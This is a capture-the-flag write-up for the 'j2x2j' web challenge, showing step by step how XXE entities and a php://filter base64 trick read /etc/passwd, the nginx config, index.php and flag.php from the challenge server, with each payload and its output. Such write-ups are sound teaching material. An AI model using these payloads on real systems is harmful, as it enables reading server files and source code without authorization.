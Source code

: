 # j2x2j
### Category: Web/Warmup

j2x2j provides a website, `http://j2x2j.chal.ctf.westerns.tokyo/` which allows for converting from JSON to XML and XML to JSON.  Watching the network, it's clear that it does this server-side, which opens up the possibility for a fairly standard XXE.

We first tried an extremely standard XXE payload, and were met with success:

###### Input
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

###### Output
```json
{
    "user": "root:x:0:0:root:\/root:\/bin\/bash\ndaemon:x:1:1:daemon:\/usr\/sbin:\/usr\/sbin\/nologin\nbin:x:2:2:bin:\/bin:\/usr\/sbin\/nologin\n...", // (clipped)
    "pass": "mypass"
}
```

Ok, great, so let's go ahead and read the flag then:

###### Input
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///flag">]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

###### Output
```
failed to decode xml
```

Hmmm... maybe the flag's not there, or maybe we're hitting some kind of parsing restriction?  Ok, let's poke around a bit to figure out where the source probably is.  We know from the response headers that the site is running under nginx, so let's read the nginx configuration:

###### Input
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/nginx/sites-enabled/default">]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

###### Output
```json
{
    "user": "##\n# You should look at the following URL's in order to grasp a solid understanding\n...", // (reproduced below)
    "pass": "mypass"
}
```

###### Output (readable)
```
##
# You should look at the following URL's in order to grasp a solid understanding
# of Nginx configuration files in order to fully unleash the power of Nginx.
# [...clipped...]
##

server {
	listen 80 default_server;
	listen [::]:80 default_server;

	# [...clipped...]

	root /var/www/html;

	# [...clipped...]
}


# [...clipped...]
```

Looks like everything is in the default location, so we should be able to find the source file at `/var/www/html/index.php` (since loading `http://j2x2j.chal.ctf.westerns.tokyo/index.php` gives the same response as `http://j2x2j.chal.ctf.westerns.tokyo/`):

###### Input
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///var/www/html/index.php">]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

###### Output
```json
failed to decode xml
```

Hmm, that's likely because the tags present in `index.php` cause the input to not be parseable as valid XML.  Fortunately, since this is getting loaded from PHP, we have PHP filters at our disposal, so let's base64-encode the file before fetching it:

###### Input
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/index.php">]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

###### Output
```json
{
    "user": "PD9waHAKaW5jbHVkZSAnZmxhZy5waHAnOwoKJG1ldGhvZCA9ICRfU0VSVkVSWydSRVFVRVNUX01FVEhPRCddOwoKZnVuY3Rpb24gZGllNDA0KCRtc2cpIHsKICBodHRwX3Jlc3B...", // (clipped)
    "pass": "mypass"
}
```

###### Output (decoded)
```php
<?php
include 'flag.php';

$method = $_SERVER['REQUEST_METHOD'];

function die404($msg) {
  http_response_code(404);
  die($msg);
}

// (clipped because the rest is irrelvant)
}
```

Ah, looks like the flag's in `flag.php`.  So let's get that:

###### Input
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/flag.php">]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

###### Output
```json
{
    "user": "PD9waHAKJGZsYWcgPSAnVFdDVEZ7dDFueV9YWEVfc3QxbGxfZXgxc3RzX2V2ZXJ5d2hlcmV9JzsK",
    "pass": "mypass"
}
```

###### Output (decoded)
```php
<?php
$flag = 'TWCTF{t1ny_XXE_st1ll_ex1sts_everywhere}';
```

So there we go: `TWCTF{t1ny_XXE_st1ll_ex1sts_everywhere}`.